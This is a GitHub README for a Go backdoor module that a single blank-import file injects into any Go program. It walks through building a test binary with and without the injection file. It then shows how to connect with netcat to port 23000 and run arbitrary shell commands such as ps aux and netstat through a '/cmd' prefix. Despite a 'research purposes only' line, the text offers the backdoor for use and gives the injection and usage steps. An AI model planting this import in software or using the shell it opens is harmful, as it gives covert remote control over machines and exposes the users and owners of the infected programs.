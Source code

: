 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Platform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

This code is for research purposes only.

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

"A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible)."

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

From CentOS 7/8 and RedHat 7/8:

```
See Golang SDK link above.
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clone the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolang
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolang/tests/simple_example` folder, remove the inject_backdoor.go source file and build it:

```
rm inject_backdoor.go
go build
```

Execute the compiled binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new compiled binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be added to a Golang source code to inject the backdoor to the software.

Follow the next section to see how to test the infected version of the binary.

### Connect to the infected binary

The backdoor uses the 'localhost:23000' address hardcoded for now. The plan is to have network interfaces detection and auto selection of available network port.

Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
/cmd netstat -natp
/cmd ps aux
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
